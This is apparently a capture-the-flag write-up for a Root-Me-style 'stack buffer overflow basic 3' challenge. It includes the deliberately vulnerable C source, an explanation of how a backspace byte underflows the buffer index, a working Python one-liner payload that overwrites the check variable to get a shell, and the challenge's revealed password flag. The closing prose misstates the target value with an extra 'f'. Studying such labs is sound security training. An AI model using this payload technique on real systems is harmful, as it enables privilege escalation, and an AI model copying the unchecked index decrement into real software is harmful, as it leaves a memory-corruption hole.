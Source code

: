 # ELF x86 - Stack buffer overflow basic 3

Simple stack smash using an integer underrun to overwrite a stack variable

```c
#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

void shell(void);

int main()
{

  char buffer[64];
  int check;
  int i = 0;
  int count = 0;

  printf("Enter your name: ");
  fflush(stdout);
  while(1)
    {
      if(count >= 64)
        printf("Oh no...Sorry !\n");
      if(check == 0xbffffabc)
        shell();
      else
        {
            read(fileno(stdin),&i,1);
            switch(i)
            {
                case '\n':
                  printf("\a");
                  break;
                case 0x08:
                  count--;
                  printf("\b");
                  break;
                case 0x04:
                  printf("\t");
                  count++;
                  break;
                case 0x90:
                  printf("\a");
                  count++;
                  break;
                default:
                  buffer[count] = i;
                  count++;
                  break;
            }
        }
    }
}

void shell(void)
{
  setreuid(geteuid(), geteuid());
  system("/bin/bash");
}
```

When `check == 0xbffffabc` the program calls `shell()`. `count` cannot exceed `64`, but that doesn't matter because the stack looks like this:

| ========= MEMORY =========                             |
| ------------------------------------------------------ |
| buffer\[\]                                   \[64\]    |
| check                                        \[4\]     |
| i                                                \[4\] |
| count                                        \[4\]     |

So I don't need to overflow `buffer`, I need to underflow it. This is easy, since when the program encounters `\x08` it decrements the counter that is used to index into `buffer`:

```c
case 0x08:
  count--;
  printf("\b");
  break;
```

Thus:

```bash
app-systeme-ch16@challenge02:~$ (python -c "print '\x08' * 4 + '\xbc\xfa\xff\xbf'"; cat) | ./ch16
Enter your name:
whoami
app-systeme-ch16-cracked
cat .passwd
Sm4shM3ify0uC4n
```

This triggers an integer underflow on `count`, moving the pointer 4 bytes behind `buffer`, which is where `check` lives. After that, I write `0xbfffffabc` and get the shell.